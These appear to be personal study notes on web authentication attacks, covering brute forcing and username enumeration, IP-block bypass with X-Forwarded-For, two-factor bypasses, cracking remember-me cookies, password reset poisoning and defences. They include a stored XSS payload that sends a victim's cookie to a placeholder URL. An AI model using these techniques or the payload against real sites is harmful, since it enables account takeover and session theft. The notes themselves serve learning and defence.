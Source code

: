 
### General Notes

> The process of verifying the identity of a user.

* Knowledge Factors: Something you know like a password.
* Possession Factors: Something you have like a security token.
* Inherence Factors: Something you are like biometrics.

> Authentication is verifying that a user is who they claim to be.
> Authorization is verifying whether a user is allowed to do something.

---

### Password Attacks

> Against websites that have username-password based login mechanisms.

##### Brute Force Attacks

> Trial and error attempts to guess valid user credentials.
> While brute forcing, must pay attention to: 
1. Status Codes: [[HTTP]] response codes can be observed. Sometimes the right username gives a different response than a wrong username.
2. Error Messages: Returned error messages are sometimes different when both username *and* password are incorrect, not just one of them. Observe characters for spelling mistakes, and so on.
3. Response Times: Observe response times. Sometimes websites will check password only if username is correct, so the response time increases. Can be checked by entering really large passwords, to make the website take longer to respond.

> Can be done via [[Burp Suite]] Intruder.
> To ensure 1 request is sent a time (if needed), go to resources pool tab and set the max concurrent requests to 1.

> If there is [[IP]] blocking, use the `X-Forwarded-For` [[HTTP]] header to change the IP address.
> If there is account locking, check all the usernames and don't exceed the password limit trials.

> User rate limiting occurs when making too many login attempts in a short period of time causing the [[IP]] to get blocked.
> IP can be unblocked by:
1. Manually by admin.
2. Manually by user after completing a CAPTCHA.
3. Automatically after a certain time period.
> User rate limiting can be bypassed by trying multiple passwords in one login request.

##### [[HTTP]] Basic Authentication

> Client receives token from server constructed by concatenating username and password and then encoding in Base64. ([[Web Encoding]])
> This token is stored in the browser, and adds it in the `authorization` header of every request.
```
Authorization: Basic base64(username:password)
```

---

### Multi-Factor Authentication

##### Bypassing Two-Factor Authentication

> When users login and then are asked to enter some sort of verification code, they are already logged in.
> Sometimes, some pages are loaded before this verification stage is completed.

> To exploit this, login as a normal user and observe the URL paths that are after the verification stage.
> Then login as the victim user, and once asked for the verification, simply change the URL to another path to see if this stage can be altogether skipped.

##### Flawed Two-Factor Authentication

> After user has logged in, the website doesn't properly verify that it is the same user completing the second step; verification.

> Users are assigned [[Cookies]] when they are logged in that relate to their account. 
> This cookie is the same one that is taken to the verification stage.
> When the verification code is submitted, the cookie is used to determine the account the user is trying to access.

> An attacker coud login using his credentials, and then change his cookie to that of a victim user's.
> He would then have to brute force or guess the verification code in order to gain access to that account without even needing the password.

> Use the [[Burp Suite]] Turbo Intruder extension for increased speed in brute forcing verification codes.
> Can also be used to change macros, such as changing the session or logging in/out to avoid being blocked.

---

### Other Authentication Mechanisms


##### Keeping Users Logged In

> The 'remember me' feature is implemented by storing persistent [[Cookies]].
> Access to these cookies is dangerous as it skips the entire login process.

> These cookies can be generated via static value concatenation such as username, timestamp, password.
> If attacker can study their own cookie, they can figure out how these cookies are generated.

> Some websites have [[Web Encoding]] such as Base64, which can be easily decrypted.
> Using hashing functions is also not perfect as if the attacker identifies the hashing algorithm, they can brute force it using a wordlist using tools such as [[John the Ripper]].

> If attacker can't create an account, they can using [[Cross Site Scripting (XSS)]] steal another user's cookie and deduce how the cookie forms.
> Performing a stored attack to steal cookies:
``` HTML
<script>document.location='URL-to-send-to/'+document.cookie</script>
```

##### Resetting User Passwords

> Through the URL, users are taken to a unique page to reset their password.
```
http://website.com/reset-password?user=<victim>
```
> Not secure as attacker could change the victim username to any user and can change any users password.

> Using a long token for each user that is checked in the backend and then destroyed shortly after resetting the password.
> Sometimes, websites dont validate tokens, and attackers could reset their own password, then change that token to gain access to any user they need.
> This can be done by trying to delete the token value, and see if the website still responds properly.

> Another technique is to steal another user's token.
> Use the `X-Forwarded-Host` [[HTTP]] header to send the reset password email. 
> Let the value of that header to be my own website, so i can see the requests if clicked on by the victim user.
> Having the victim user token, I can open my own reset password page, but change the token to that of the victim user's.
> I can then reset the password.

##### Changing User Passwords

> Changing password means entering current password and then the new password twice.
> These features can be dangerous if attackers can access them without being logged in as the victim.

> Try different combinations of entering the correct current password and incorrect current password, and matching and not matching new passwords.
> Observe the responses for each combination, and check if a pattern is in place that can be cracked.

---

### Preventing Authentication Attacks

* Taking care with user credentials.
	* Never send login data over unencrypted connections.
	* Any [[HTTP]] to be converted to [[HTTPS]].
	* Audit the website so no private information is disclosed.
* Do not count on users for security.
	* Effective password policy.
* Prevent username enumeration.
	* Using identical generic error messages.
	* Return same status codes for any login request.
	* Make response times indestinguishable.
* Protect against brute force.
	* [[IP]]-based user rate limiting.
	* Prevent attackers from manipulating their IP address.
	* Complete CAPTCHA tests with each login attempt after a limit.
* Proper Multi-Factor Authentication.

---
